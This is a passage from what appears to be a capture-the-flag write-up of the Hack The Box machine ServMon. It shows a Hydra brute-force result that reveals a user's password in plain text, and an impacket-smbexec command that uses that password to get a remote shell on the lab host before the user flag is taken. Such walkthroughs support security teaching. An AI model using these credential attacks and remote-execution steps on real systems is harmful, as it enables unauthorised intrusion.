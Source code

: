 ![servmon_hydra.png](../assets/servmon_assets/servmon_hydra.png)

Nice, Hydra found valid credentials: nadine:L1k3B1gBut7s@W0rk. (HR may want to take a closer look at Nadine with a password like that.)

We can use this password to login using impacket-smbexec:

```
┌──(ryan㉿kali)-[~/HTB/ServMon]
└─$ impacket-smbexec nadine@10.10.10.184                    
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine
```

And grab the first flag:

![servmon_user.png](../assets/servmon_assets/servmon_user.png)
